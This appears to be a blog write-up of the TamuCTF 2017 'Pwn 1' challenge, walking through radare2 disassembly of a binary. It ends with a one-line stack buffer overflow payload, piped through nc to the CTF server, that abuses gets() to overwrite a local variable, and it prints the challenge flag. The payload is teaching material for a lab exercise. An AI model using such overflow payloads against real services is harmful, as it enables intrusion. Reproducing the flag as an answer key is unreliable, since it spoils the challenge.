 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

{{< highlight r2 "hl_lines=28 29" >}} 
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483b3    1 25           fcn.080483b3
0x080483cc    1 4            sub.gets_12_3cc
0x080483d0    1 6            sym.imp.gets
0x080483d6    2 10   -> 22   fcn.080483d6
0x080483e0    1 6            sym.imp._IO_getc
0x080483e6    2 10   -> 22   fcn.080483e6
0x080483f0    1 6            sym.imp.puts
0x080483f6    2 10   -> 22   fcn.080483f6
0x08048400    1 6            sym.imp.__libc_start_main
0x08048406    2 10   -> 22   fcn.08048406
0x08048410    1 6            sym.imp.setvbuf
0x08048416    2 10   -> 22   fcn.08048416
0x08048420    1 6            sym.imp.fopen
0x08048426    2 10   -> 22   fcn.08048426
0x08048430    1 6            sym.imp.putchar
0x08048436    2 10   -> 22   fcn.08048436
0x08048440    1 6            sub.__gmon_start___252_440
0x08048448    1 8            fcn.08048448
0x08048450    1 33           entry0
0x08048471    1 1            fcn.08048471
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484bc    4 57           fcn.080484bc
0x080484f5    3 41           fcn.080484f5
0x08048520    8 43   -> 93   sym.frame_dummy
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
0x08048630    4 93           sym.__libc_csu_init
0x0804868d    1 5            fcn.0804868d
0x08048692    1 22           fcn.08048692
{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

{{< highlight r2 "hl_lines=18 20" >}}
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf 
/ (fcn) sym.print_flag 103
|   sym.print_flag ();
|           ; var int local_dh @ ebp-0xd
|           ; var int local_ch @ ebp-0xc
|           ; CALL XREF from 0x08048606 (main)
|           0x0804854b      55             push ebp
|           0x0804854c      89e5           ebp = esp
|           0x0804854e      83ec18         esp -= 0x18
|           0x08048551      83ec0c         esp -= 0xc
|           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
|              ; int puts(const char *s)
|           0x08048559      e892feffff     sym.imp.puts ()
|           0x0804855e      83c410         esp += 0x10
|           0x08048561      83ec08         esp -= 8
|           0x08048564      68d3860408     push 0x80486d3
|           0x08048569      68d5860408     push str.flag.txt                                  
|              ; file*fopen(const char *filename,
|           0x0804856e      e8adfeffff     sym.imp.fopen ()                                   
|           0x08048573      83c410         esp += 0x10
|           0x08048576      8945f4         dword [local_ch] = eax
|       ,=< 0x08048579      eb10           goto 0x804858b
|       |      ; JMP XREF from 0x080485a0 (sym.print_flag)
|      .--> 0x0804857b      0fbe45f3       eax = byte [local_dh]
|      ||   0x0804857f      83ec0c         esp -= 0xc
|      ||   0x08048582      50             push eax
|      ||   0x08048583      e8a8feffff     sym.imp.putchar ()          ; int putchar(int c)
|      ||   0x08048588      83c410         esp += 0x10
|      !|      ; JMP XREF from 0x08048579 (sym.print_flag)
|      |`-> 0x0804858b      83ec0c         esp -= 0xc
|      |    0x0804858e      ff75f4         push dword [local_ch]
|      |    0x08048591      e84afeffff     sym.imp._IO_getc ()         ; int getc(FILE *steam)
|      |    0x08048596      83c410         esp += 0x10
|      |    0x08048599      8845f3         byte [local_dh] = al
|      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff ; [0xff:1]=8
|      `==< 0x080485a0      75d9           if (var) goto 0x804857b
|           0x080485a2      83ec0c         esp -= 0xc
|           0x080485a5      6a0a           push 0xa
|           0x080485a7      e884feffff     sym.imp.putchar ()          ; int putchar(int c)
|           0x080485ac      83c410         esp += 0x10
|           0x080485af      90             
|           0x080485b0      c9             
\           0x080485b1      c3 
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` `main` Lets see whats inside it.

```r2
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](/assets/TamuCTF2017/pwn1/3-pwn1_condition.png)

We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function:

![Pwn1 Gets Call](/assets/TamuCTF2017/pwn1/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
